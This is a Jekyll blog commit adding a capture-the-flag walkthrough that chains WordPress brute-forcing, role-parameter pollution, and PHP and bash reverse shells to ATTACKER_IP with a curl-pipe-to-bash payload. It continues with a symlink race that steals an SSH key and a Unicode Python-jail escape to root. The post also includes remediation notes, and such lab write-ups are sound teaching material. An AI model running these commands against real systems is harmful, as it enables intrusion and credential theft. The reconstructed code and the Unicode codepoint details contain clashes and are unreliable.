

Before and after one commit to Nirusaki-Malaal/Nirusaki-Malaal.github.io, a Jekyll site: the page built from blogs/index.html, in a window 1280 px wide and 900 px high, scrolled down 348 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed lines change nothing that is shown.

Commit message:
add Break-Me CTF walkthrough blog post, assets, and config updates

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -22,6 +22,7 @@
   - README.md
   - vendor
   - node_modules
+  - nith-result-website
 
 defaults:
   - scope:
--- /dev/null
+++ b/_posts/2026-08-12-break-me-ctf-walkthrough.md
@@ -0,0 +1,479 @@
+---
+layout: post
+title: "Break-Me CTF Walkthrough"
+description: "A technical walkthrough of the Break-Me CTF machine covering WordPress parameter pollution, Bash IFS command injection, SUID TOCTOU race conditions, and Python NFKC Unicode normalization jail escapes."
+tags: [CTF, Web Security, Privilege Escalation, Command Injection, TOCTOU, SUID, Python Security, Linux]
+category: security
+image: https://nirusaki.me/assets/img/og/home.png
+---
+
+### Overview
+
+Break-Me is a Linux CTF challenge featuring web parameter pollution, bash command injection via IFS variable manipulation, a SUID file descriptor TOCTOU race condition, and a Python restricted shell escape using Unicode NFKC normalization.
+
+![Break-Me Walkthrough GIF](/assets/img/posts/hehedipsanu.gif)
+
+```text
++---------------------------------------------------------------------------------------------------+
+|                                      ATTACK CHAIN ARCHITECTURE                                    |
++---------------------------------------------------------------------------------------------------+
+|                                                                                                   |
+|  [Attacker System]                                                                                |
+|         |                                                                                         |
+|         +---> [Reconnaissance: Nmap / Gobuster / WPScan]                                          |
+|         |           |                                                                             |
+|         |           v                                                                             |
+|         +---> [Phase 1: WordPress Authentication (bob:soccer)]                                    |
+|         |           |                                                                             |
+|         |           v                                                                             |
+|         +---> [Phase 2: Role Parameter Pollution (wpda_role[] -> Administrator)]                   |
+|         |           |                                                                             |
+|         |           v                                                                             |
+|         +---> [Phase 3: Theme Editor Web Shell Execution -> www-data Shell]                       |
+|                     |                                                                             |
+|                     v                                                                             |
+|               [Phase 4: ${IFS} Command Injection -> User: john]                                  |
+|                     |                                                                             |
+|                     v                                                                             |
+|               [Phase 5: SUID TOCTOU Symlink Race -> User: youcef]                                 |
+|                     |                                                                             |
+|                     v                                                                             |
+|               [Phase 6: Python NFKC Unicode Normalization Jail Escape -> Root]                    |
++---------------------------------------------------------------------------------------------------+
+```
+
+---
+
+### 1. Reconnaissance and Enumeration
+
+Port discovery via Nmap against target `10.49.146.128`:
+
+```bash
+nmap -sV 10.49.146.128
+```
+
+```text
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.56 ((Debian))
+```
+
+Web directory brute-forcing using Gobuster:
+
+```bash
+gobuster dir -u http://10.49.146.128:80/ -w common.txt
+```
+
+Found WordPress endpoint `/wordpress/`:
+
+```text
+/manual               (Status: 301) [Size: 315] [--> http://10.49.146.128/manual/]
+/wordpress            (Status: 301) [Size: 318] [--> http://10.49.146.128/wordpress/]
+```
+
+![WordPress Landing Page](/assets/img/posts/image_1786379517060_0.png)
+
+Running WPScan to identify accounts and versions:
+
+```bash
+wpscan --url http://10.49.146.128/wordpress --enumerate u
+```
+
+* WordPress Version: 6.4.3
+* Accounts identified: `admin`, `bob`
+
+Brute-forcing account credentials with `rockyou.txt`:
+
+```bash
+wpscan --url http://10.49.146.128/wordpress -U usernames.txt -P rockyou.txt
+```
+
+Discovered credentials: `bob:soccer`.
+
+---
+
+### 2. Parameter Pollution Role Escalation
+
+Logging in as `bob` provides low-privilege subscriber access. Intercepting the profile update request and appending `&wpda_role[]=administrator` exploits an HTTP Parameter Pollution vulnerability.
+
+```http
+POST /wordpress/wp-admin/profile.php HTTP/1.1
+Host: 10.49.146.128
+Content-Type: application/x-www-form-urlencoded
+
+user_id=3&nickname=bob&email=bob%40breakme.local&wpda_role[]=administrator
+```
+
+![Parameter Pollution Privilege Escalation](/assets/img/posts/image_1786385836350_0.png)
+
+#### Low-Level Mechanics: HTTP Parameter Pollution (HPP)
+
+HTTP Parameter Pollution occurs when an application receives multiple parameter keys or bracketed array representations (such as `wpda_role[]`). In PHP backend environments, query and request body parameters containing square brackets are automatically parsed into array data structures inside the `$_POST` superglobal.
+
+When the profile update handler passes `$_POST` data directly to user capability functions (such as `update_user_meta()` or plugin-level role updating logic) without verifying whether the submitting user possesses `edit_users` permissions, the array payload overwrites the target user's role mapping stored in the `wp_usermeta` database table under the `wp_capabilities` key. This elevates the subscriber account to `administrator`.
+
+---
+
+### 3. Web Shell Execution
+
+With administrator access, navigate to `Appearance -> Theme File Editor` and edit `functions.php`:
+
+```php
+<?php
+system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
+?>
+```
+
+![Theme File Editor Payload](/assets/img/posts/image_1786385919793_0.png)
+
+Start a Netcat listener:
+
+```bash
+nc -lvnp 4444
+```
+
+Requesting `http://10.49.146.128/wordpress/wp-content/themes/twentytwentyfour/functions.php` triggers the reverse shell as `www-data`.
+
+Stabilize the terminal:
+
+```bash
+python3 -c "import pty; pty.spawn('/bin/bash')"
+export TERM=xterm-color
+```
+
+Enumerating `/home` shows local users `john` and `youcef`:
+
+![Local Home Users](/assets/img/posts/image_1786385981099_0.png)
+
+---
+
+### 4. Command Injection via Bash `$IFS` Variable
+
+Inspecting an internal script run by user `john` shows it filters space characters (`0x20`).
+
+![Filter Inspection](/assets/img/posts/image_1786435981420_0.png)
+
+![Space Character Filter](/assets/img/posts/image_1786435987561_0.png)
+
+#### Low-Level Mechanics: POSIX Word Splitting and Lexical Processing
+
+The POSIX standard defines the shell command execution lifecycle across distinct processing stages:
+
+```text
+1. Tokenization -> 2. Parameter Expansion -> 3. Field Splitting -> 4. Pathname Expansion -> 5. Quote Removal
+```
+
+Input validation filters operating at step 1 (Tokenization) often look for literal space bytes (`0x20`). However, field splitting (step 3) processes unquoted results of parameter expansion using the `IFS` (Internal Field Separator) variable. By default, `IFS` contains `<space><tab><newline>` (`\x20\x09\x0a`).
+
+When the variable expression `${IFS}` is expanded, the field splitting algorithm evaluates each sequence of `IFS` characters as a token delimiter. This constructs discrete argument vectors (`argv[0]`, `argv[1]`, `argv[2]`) for system execution without transmitting literal `0x20` space bytes across the sanitization filter.
+
+![IFS Injection Payload Execution](/assets/img/posts/image_1786437601684_0.png)
+
+Stage a payload script `payload.sh` on the attacker host:
+
+```bash
+#!/bin/bash
+bash -i >& /dev/tcp/ATTACKER_IP/2222 0>&1
+```
+
+Listener on port 2222:
+
+```bash
+nc -lvnp 2222
+```
+
+Submit command payload bypassing space filter:
+
+```bash
+|curl${IFS}http://ATTACKER_IP:8080/payload.sh|bash
+```
+
+Shell popped as user `john`. Read user 1 flag:
+
+```bash
+cat /home/john/user1.txt
+# Output: 5c3ea0d312568c7ac68d213785b26677
+```
+
+---
+
+### 5. SUID Binary TOCTOU Race Condition
+
+The executable `/home/youcef/readfile` has the SUID bit set for user `youcef` (UID `1002`).
+
+Disassembling with `objdump`:
+
+```bash
+objdump -d -Mintel /home/youcef/readfile > readfile.asm
+```
+
+Reconstructed C source logic:
+
+```c
+#include <stdio.h>
+#include <unistd.h>
+#include <string.h>
+#include <assert.h>
+#include <fcntl.h>
+#include <sys/stat.h>
+
+int main(int argc, char* argv[])
+{
+    int ExitCode;
+    __uid_t UserID;
+    struct stat StatusFile;
+    int canExecute;
+    int FileDescriptor;
+    int canRead;
+    int BytesReadInt;
+    char buffer[1024];
+    unsigned int mode;
+    char* FlagOccurence;
+    char* IdRsaOccurence;
+    ssize_t BytesRead;
+
+    if (argc == 2)
+    {
+        canExecute = access(argv[1], F_OK);
+        if (canExecute == 0)
+        {
+            UserID = getuid();
+            if (UserID == 1002)
+            {
+                FlagOccurence = strstr(argv[1], "flag");
+                IdRsaOccurence = strstr(argv[1], "id_rsa");
+                lstat(argv[1], &StatusFile);
+                mode = (unsigned int)S_ISLNK(StatusFile.st_mode);
+                canRead = access(argv[1], R_OK);
+                usleep(0);
+
+                if (((FlagOccurence == NULL) && (mode == 0) && (canRead != -1)) && (IdRsaOccurence == NULL))
+                {
+                    printf("I guess you won!\n");
+                    FileDescriptor = open(argv[1], O_RDONLY);
+                    assert(FileDescriptor >= 0 && "Failed to open the file");
+                    do {
+                        BytesRead = read(FileDescriptor, buffer, 1024);
+                        BytesReadInt = (int)BytesRead;
+                        if (BytesRead < 1) break;
+                        BytesRead = write(1, buffer, (long)BytesReadInt);
+                    } while (BytesRead > 0);
+                    ExitCode = 0;
+                }
+                else
+                {
+                    printf("Nice Try!\n");
+                    ExitCode = 1;
+                }
+            }
+            else
+            {
+                printf("You can\'t run this program\n");
+                ExitCode = 1;
+            }
+        }
+        else
+        {
+            printf("File Not Found\n");
+            ExitCode = 1;
+        }
+    }
+    else
+    {
+        printf("Usage: ./readfile <FILE>\n");
+        ExitCode = 1;
+    }
+
+    return ExitCode;
+}
+```
+
+#### Low-Level Mechanics: TOCTOU Race Condition and VFS Lookup Discrepancies (CWE-367)
+
+The vulnerability stems from an architectural flaw in how POSIX file verification system calls interact with setuid privilege boundaries and Linux Virtual File System (VFS) path evaluation:
+
+1. **Real vs. Effective User ID Verification**: The system call `access(path, mode)` evaluates file permissions against the process's **Real User ID** (`getuid() == 1000`), ignoring the **Effective User ID** (`geteuid() == 1002`). If an attacker directly requests `/home/youcef/.ssh/id_rsa`, `access()` fails because `john` (UID `1000`) lacks read access.
+2. **Path Name Validation and Symlink Checks**: The code checks whether `argv[1]` contains the strings `"flag"` or `"id_rsa"`, and uses `lstat(argv[1], &StatusFile)` to inspect the inode mode (`StatusFile.st_mode & S_IFMT`). `lstat()` does not resolve symbolic links. When `argv[1]` points to a standard file named `key`, all checks pass.
+3. **Temporal Gap and Context Switch Window**: The binary invokes `usleep(0)`, forcing an explicit system context switch and yielding the CPU execution slice to the kernel scheduler.
+4. **File Open Elevation**: When `open(argv[1], O_RDONLY)` is called, the kernel resolves the path using the process's **Effective User ID** (`geteuid() == 1002`). If the file `key` was replaced during the sleep interval with a symbolic link to `/home/youcef/.ssh/id_rsa`, `open()` dereferences the link under `youcef` permissions, creating an open file descriptor to the restricted target.
+
+```text
++---------------------------------------------------------------------------------------------------+
+|                                 TOCTOU RACE CONDITION TIMELINE                                    |
++---------------------------------------------------------------------------------------------------+
+|                                                                                                   |
+|   Attacker Symlink Loop                           SUID Binary /home/youcef/readfile               |
+|   ---------------------                           ---------------------------------               |
+|                                                                                                   |
+|   1. Create normal file 'key'             ---->   2. access("key", F_OK) -> Valid (Real UID 1000) |
+|                                                   3. lstat("key") -> Regular File (st_mode)       |
+|   4. rm key && ln -sf /path/id_rsa key    ====>   5. usleep(0) [SCHEDULER CONTEXT SWITCH WINDOW]  |
+|                                                   6. open("key", O_RDONLY)                        |
+|                                                      [VFS dereferences link using Effective 1002] |
+|                                                   7. read() & write() output private key bytes    |
+|                                                                                                   |
++---------------------------------------------------------------------------------------------------+
+```
+
+#### Exploitation
+
+Run a continuous symlink replacement loop in the background:
+
+```bash
+while true; do ln -sf /home/youcef/.ssh/id_rsa key; rm key; touch key; done &
+```
+
+Run `readfile` repeatedly until the race window hits:
+
+```bash
+for i in {1..50}; do /home/youcef/readfile key; done
+```
+
+Result: Extracted `youcef` SSH private key (`id_rsa`). Save to `id_rsa` and restrict permissions:
+
+```bash
+chmod 600 id_rsa
+```
+
+Patch Python 3 hex conversion in `/usr/bin/ssh2john`:
+
+![Modifying ssh2john string encoding](/assets/img/posts/image_1786470882232_0.png)
+
+![Patching hex conversion in ssh2john](/assets/img/posts/image_1786471008136_0.png)
+
+Extract and crack SSH key passphrase with `john`:
+
+```bash
+ssh2john id_rsa > id_rsa_hash
+john id_rsa_hash --wordlist=rockyou.txt
+```
+
+Cracked passphrase: `a123456`.
+
+Log in via SSH as `youcef` and read user 2 flag:
+
+```bash
+ssh -i id_rsa youcef@10.49.146.128
+cat /home/youcef/.user2.txt
+# Output: df5b1b7f4f74a416ae27673b22633c1b
+```
+
+---
+
+### 6. Root Escalation via Python NFKC Unicode Normalization
+
+Checking sudo permissions for `youcef`:
+
+```bash
+sudo -l
+```
+
+![Sudo Privileges Output](/assets/img/posts/image_1786472166825_0.png)
+
+```text
+User youcef may run the following commands on breakme:
+    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
+```
+
+Inspect `/root/jail.py`: Filters spaces and standard ASCII string patterns (`import`, `os`, `system`, `breakpoint`).
+
+#### Low-Level Mechanics: Python 3 Identifier Normalization (PEP 3131 & NFKC)
+
+PEP 3131 introduced non-ASCII identifier support to the Python language parser. Under the Python lexical specification, source code text is normalized using **Unicode Normalization Form Compatibility Decomposition, followed by Canonical Composition (NFKC)** prior to Abstract Syntax Tree (AST) compilation.
+
+The NFKC algorithm transforms formatting variants, mathematical symbols, and fullwidth characters into standard compatibility representations:
+
+```text
+Mathematical Italic '𝘣' (U+1D41B) -> NFKC Normalization -> Standard ASCII 'b' (U+0062)
+Mathematical Italic '𝘳' (U+1D45F) -> NFKC Normalization -> Standard ASCII 'r' (U+0072)
+Mathematical Italic '𝘦' (U+1D452) -> NFKC Normalization -> Standard ASCII 'e' (U+0065)
+...
+Input String: 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵() -> Parsed AST Token: breakpoint()
+```
+
+If security filters scan raw string byte sequences prior to NFKC decomposition (`if 'breakpoint' in user_input:`), the filter checks standard ASCII codepoints (`U+0061` to `U+007A`) and permits non-ASCII Unicode strings.
+
+When Python executes the validated input, the compiler applies NFKC normalization, turning `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()` into standard ASCII `breakpoint()`. PEP 553 defines built-in `breakpoint()`, which calls `sys.breakpointhook()`, opening an interactive PDB (Python Debugger) terminal within root process context.
+
+```text
++---------------------------------------------------------------------------------------------------+
+|                            PYTHON UNICODE NORMALIZATION PIPELINE                                  |
++---------------------------------------------------------------------------------------------------+
+|                                                                                                   |
+|   Attacker Input: 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵() (Mathematical Italic Unicode: U+1D41B U+1D45F U+1D452...)             |
+|         |                                                                                         |
+|         v                                                                                         |
+|   [Jail Filter Check] -> Evaluates ASCII codepoints, passes non-ASCII Unicode                     |
+|         |                                                                                         |
+|         v                                                                                         |
+|   [Python Compiler Lexer] -> Performs NFKC Normalization Form Compatibility Decomposition         |
+|         |                                                                                         |
+|         v                                                                                         |
+|   [AST Construction] -> Normalized to standard ASCII: breakpoint()                                |
+|         |                                                                                         |
+|         v                                                                                         |
+|   [Execution Engine] -> Invokes sys.breakpointhook() -> Interactive PDB Debugger Shell            |
+|         |                                                                                         |
+|         v                                                                                         |
+|   [PDB Terminal Context] -> import os; os.system('/bin/bash') -> Interactive Root Shell           |
++---------------------------------------------------------------------------------------------------+
+```
+
+#### Exploitation
+
+Execute `jail.py` with sudo:
+
+```bash
+sudo /usr/bin/python3 /root/jail.py
+```
+
+Submit Unicode payload:
+
+```text
+𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
+```
+
+Python normalizes `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()` to `breakpoint()`, triggering the `pdb` debugger prompt.
+
+From inside `pdb`, execute:
+
+```text
+(Pdb) import os; os.system('/bin/bash')
+```
+
+![Root Shell and Flag Retrieval](/assets/img/posts/image_1786472847266_0.png)
+
+Root flag retrieved:
+
+```bash
+cat /root/root.txt
+# Output: e257d58481412f8772e9fb9fd47d8ca4
+```
+
+---
+
+### Remediation Summary
+
+| Vulnerability | Root Cause | Fix |
+| :--- | :--- | :--- |
+| **WordPress Parameter Pollution** | Unvalidated parameter array parsing | Enforce schema validation on role assignment parameters |
+| **Command Injection via `$IFS`** | Shell string concatenation | Use parameterized execution interfaces (`execve`) |
+| **SUID TOCTOU Race** | Non-atomic path checking before opening | Use file descriptors (`openat`, `fstat`) for atomic validation |
+| **Python Jail Unicode Bypass** | Filtering raw input before NFKC normalization | Normalize input with `unicodedata.normalize('NFKC', input)` before filtering |
+
+---
+
+### References
+
+1. CWE-367: Time-of-Check to Time-of-Use (TOCTOU) Race Condition
+   [https://cwe.mitre.org/data/definitions/367.html](https://cwe.mitre.org/data/definitions/367.html)
+2. CWE-78: OS Command Injection
+   [https://cwe.mitre.org/data/definitions/78.html](https://cwe.mitre.org/data/definitions/78.html)
+3. CWE-176: Unicode Encoding Handling
+   [https://cwe.mitre.org/data/definitions/176.html](https://cwe.mitre.org/data/definitions/176.html)
+4. Unicode Standard Annex #15: Unicode Normalization Forms
+   [https://unicode.org/reports/tr15/](https://unicode.org/reports/tr15/)
+5. POSIX.1-2017: Shell Word Splitting (`IFS`)
+   [https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_06_05](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_06_05)
+6. PEP 553: Built-in `breakpoint()`
+   [https://peps.python.org/pep-0553/](https://peps.python.org/pep-0553/)
````
Also changed, not shown: assets/img/posts/hehedipsanu.gif (added), assets/img/posts/image_1786379517060_0.png (added), assets/img/posts/image_1786385836350_0.png (added), assets/img/posts/image_1786385919793_0.png (added), assets/img/posts/image_1786385981099_0.png (added), assets/img/posts/image_1786435981420_0.png (added), assets/img/posts/image_1786435987561_0.png (added), assets/img/posts/image_1786437601684_0.png (added), assets/img/posts/image_1786470880456_0.png (added), assets/img/posts/image_1786470882232_0.png (added), assets/img/posts/image_1786471008136_0.png (added), assets/img/posts/image_1786472166825_0.png (added), assets/img/posts/image_1786472847266_0.png (added).
